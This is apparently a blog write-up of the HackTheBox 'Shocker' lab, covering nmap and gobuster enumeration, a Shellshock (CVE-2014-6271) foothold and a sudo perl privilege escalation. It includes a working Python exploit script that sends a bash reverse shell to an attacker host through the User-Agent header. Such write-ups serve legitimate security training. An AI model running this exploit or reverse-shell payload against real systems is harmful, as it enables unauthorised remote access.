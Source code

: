 ```yaml
---
title: "HackTheBox - Shocker Writeup"
date: 2022-11-05
draft: false
tags: ["CVE-2014-6271", "gobuster", "shellshock", "sudo-perl", "GTFOBins", "rce", "python", "file-misconfiguration", "cgi-bin"]
htb: "HacktheBox"
linux: "Linux"
---
```


## Nmap
Like always, I’m going to scan the IP Address by using [nmap](https://nmap.org/) but I’m going to scan the full port first. Then, I’m going to scan the only open ports.

```sql
nmap -p80,2222 -sCV -oN nmap/shocker 10.10.10.56

80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap scan result is completed. There are just `2` port opens which are port `80` and port `2222`. It's a bit odd to configure the `SSH` in another port besides the standard port `22`. However, based on the [OpenSSH](https://launchpad.net/ubuntu/+source/openssh/1:7.2p2-4ubuntu2.2) service banner, this is an Ubuntu (xenial) machine. Unfortunately, I can't do much with `SSH` since it's mostly secure hence the name `Secure Shell`. :)

## Http: don't bug me!
With that information in hand. I've navigated port `80` through my browser and I've been greeted with this page. It's just a funny image with text that says `"Don't Bug Me!"`. Based on the `index` page extension, it's an `html` file.

![](dont-bug-me.png)

### Gobuster
So, I'm going to run [gobuster](https://github.com/OJ/gobuster) to enumerate more on this webserver. However, it's just a massive dead end for me. I can't find anything at all. Based on this machine name, which is `shocker` and I'm thinking somehow it's based on [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) vulnerability. Also, it has an `Apache` web server running and this vulnerability can occur in the [/cgi-bin/](https://en.wikipedia.org/wiki/Common_Gateway_Interface) directory. When I navigated to that directory in my browser, I instantly got `Forbidden` or `403` which means it existed.

![](cgi-bin.png)

Now, I'm confused why [gobuster](https://github.com/OJ/gobuster) can't find it at all, and based on the wordlist I used, the `cgi-bin` is present in it. With closer inspection, I found out that it needs to be another "slash" `/` in the end. For example `/cgi-bin` vs `/cgi-bin/`. When it doesn't have `/` at the end, it goes straight to `404 Not Found`. Then, I'll try running the [gobuster](https://github.com/OJ/gobuster) again with tag `-f` for `Append / to each request` and it did manage to find the `/cgi-bin/` directory.

![](gobuster-cgi-bin.png)

The best thing to do now is to enumerate more in that directory but this time I'm using the `-x` flag for looking up the extension with `.sh` and `.cgi` and I've got a hit with the `user.sh` file.

![](gobuster-cgi-bin-user-sh.png)

### Http: /Cgi-Bin/User.sh
When I navigated to that file which is `user.sh` it automatically downloaded it into my machine. When I opened it up, it was `"Just an uptime test script"` and nothing too fancy about it. ;)

![](read-the-file-user-sh.png)

## Foothold: ShellShock
So, I already have the file that I needed for the exploitation but I didn't know how to tinker with it. So, the same old me goes to my handsome and wise friend Mr.Google and asking about ShellShock's vulnerability. I ended up finding this [blog](https://www.sevenlayers.com/index.php/125-exploiting-shellshock) post showcasing `"how to exploit shellshock manually"` also the given CVE for this vulnerability is [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271). I can inject some arbitrary bash command in the `User-Agent` but with some weird string inside it. Luckily, I manage to find this [answer](https://unix.stackexchange.com/a/157520) regard of that `string` (Kind of understand a bit) but I want to be "leet" today. So, I'm going to make a [python](https://www.python.org/) script to gain the initial foothold with [bash reverse shell](https://www.revshells.com/).

```python
#!/usr/bin/env python3
import argparse
import requests
import sys

parser = argparse.ArgumentParser()
parser.add_argument('-i', '--lhost', metavar='', required=True, help='listening ip')
parser.add_argument('-p', '--lport', metavar='', required=True, help='listening port')
args = parser.parse_args()

if __name__ == "__main__":
    try:
        payload = f"/bin/bash -i >& /dev/tcp/{args.lhost}/{args.lport} 0>&1"

        url = "http://10.10.10.56/cgi-bin/user.sh"
        agent = {'User-Agent':'() { :; }; echo ; echo ; '+ payload}
        req = requests.get(url, headers=agent)
    except KeyboardInterrupt:
        print('\n');sys.exit()
```

why not? ¯\\(0_0)/¯

## PrivEsc: Perl
I'm in as a `shelly` user and the very first thing I love to do is [upgrading my shell](https://note.shafiqaiman.com/misc/upgrade-reverse-shell#python) with python since this machine has python installed on it. Like always, I love to start with the simple `"check"` in the sudo permission with the `sudo -l` command. Shockingly, I can run `perl` with the sudo command without any authentication needed. So, I'm heading to the lovely [gtfobins](https://gtfobins.github.io/) that have a bunch of collection of Unix binaries that can be abused. Then, I'll try to run it, and BOOM!

![](root.png)

VOILA